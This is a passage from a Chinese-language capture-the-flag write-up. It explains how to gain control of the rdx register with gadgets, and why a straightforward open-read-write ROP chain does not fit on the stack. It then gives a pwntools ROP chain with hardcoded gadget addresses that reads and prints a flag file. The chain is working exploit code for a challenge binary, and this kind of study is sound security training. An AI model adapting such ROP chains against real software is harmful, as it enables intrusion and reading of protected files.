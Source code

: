 首先设置r12, r14, r12赋值给rdx, r14可以继续控制执行流,  但是使用`call`因此有个返回地址压栈, 我们使用个`pop`即可弹出, 然后ret继续通过栈内我们的数据去控制执行流, 继续rop, 

这一部分图示如下: 

![image-20210924221622639](https://s2.loli.net/2021/12/28/eUcYR46Tgsb3Wnd.png)

![image-20210924221540345](https://s2.loli.net/2021/12/28/gY4T5QcBPCwoeSb.png)

![image-20210924221549989](https://s2.loli.net/2021/12/28/xBpJqnCvVT3G1yL.png)

![image-20210924221558339](https://s2.loli.net/2021/12/28/4URI8QdbhBLqGuo.png)

于是可以控制rdx, 

但是这种方案直接进行orw栈长度不够, 调整各个gadget达到最小仍然不行:

这段是最小的rop: 

```python

poprax = 0x0000000000401001
poprdi = 0x000000000040117b
poprsi = 0x0000000000401179
popr13 = 0x0000000000401176
sysret = 0x000000000040785d
popret = 0x000000000040117c
popr12 = 0x000000000040673e

movrdxr13 = 0x0000000000402700
movrdxr12 = 0x0000000000402792

leave  = 0x0000000000404001

rop = flat(
		# rdx = 9
		# open(flag, 0, ..)
		poprax, 2, 
		poprsi, 0, 0, 0, 
		poprdi, flag, 0, 
		sysret, 
		
		# set rdx=0x200
		
		# poprax, popret, 
		# popr13, 0x200, 0, 0, 0, 
		# movrdxr13, 
		popr12, 0x200, popret, 0, 0, 
		movrdxr12, 

		# read(3, flag, ..)
		poprax, 0, 
		poprsi, flag, 0, 0, 
		poprdi, 3, 0, 
		sysret, 

		# wirte(1, flag, ..)
		poprax, 1, 
		poprdi, 1, 0, 
		sysret, 
		)
```
